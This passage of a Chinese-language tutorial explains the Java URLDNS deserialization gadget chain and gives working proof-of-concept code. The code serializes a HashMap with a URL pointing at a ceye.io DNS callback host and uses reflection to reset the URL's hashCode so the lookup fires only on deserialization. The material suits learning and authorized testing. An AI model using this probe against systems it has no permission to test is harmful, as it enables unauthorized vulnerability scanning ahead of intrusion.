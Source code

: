 可以发现对内容进行了`getHostAddress`方法处理，继续跟进

[![](assets/1705890694-0c468692c4d22abba2a154df8bb6604c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120103343-54455c26-b73c-1.png)

根据主机名获取其 IP 地址，也就是对其发送了一次 DNS 请求。

至此，可以看出总体链如下

```bash
1、HashMap->readObject()
2、HashMap->hash()
3、URL->hashCode()
4、URLStreamHandler->hashCode()
5、URLStreamHandler->getHostAddress()
```

接下来构造 Poc 进行 DNS 请求尝试。

```bash
HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();   
hashmap.put(new URL("http://s3moz8.ceye.io"),1);

serialize(hashmap);
```

此时运行会发现，我们还没进行反序列化，在此时就直接收到 DNS 请求了，这是为啥呢，仔细看一下代码，会发现

```bash
PUT->hash->hashCode()
```

而 URL 类中的`hashCode`默认值为 -1，此时到这里就会直接往下运行，也就是对 URL 发起了 DNS 请求。

这样的话我们就无法判断是反序列化出来的 URLDNS，还是序列化中的 URLDNS，造成了干扰，此时我们该怎么办呢，我们可以看到这里的源头是因为**put()**，所以我们可以先不发送请求

```bash
#Serialization.java
package org.example;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Serialization {
    public static void Serialize(Object obj) throws IOException{
        ObjectOutputStream oos= new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://s3moz8.ceye.io");
        Class c = url.getClass();
        Field hashcodefile = c.getDeclaredField("hashCode");
        hashcodefile.setAccessible(true);
        hashcodefile.set(url,1234);
        hashmap.put(url,1);
// 这里把 hashCode 改为 -1；通过反射的技术改变已有对象的属性
        hashcodefile.set(url,-1);
        Serialize(hashmap);
    }
}
```
